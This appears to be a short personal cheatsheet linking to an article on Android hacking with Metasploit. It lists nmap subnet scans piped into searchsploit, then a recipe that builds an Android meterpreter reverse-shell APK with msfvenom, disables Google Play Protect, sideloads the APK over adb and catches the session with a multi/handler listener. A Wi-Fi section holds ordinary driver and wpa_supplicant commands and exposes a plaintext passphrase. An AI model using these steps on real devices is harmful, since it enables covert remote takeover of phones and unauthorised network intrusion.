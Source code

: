 https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf
sudo dhclient wlan0 -r
MAC: cat /sys/class/net/wlan0/address  

Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf  


ERROR  
nl80211: kernel reports: Match already configured  
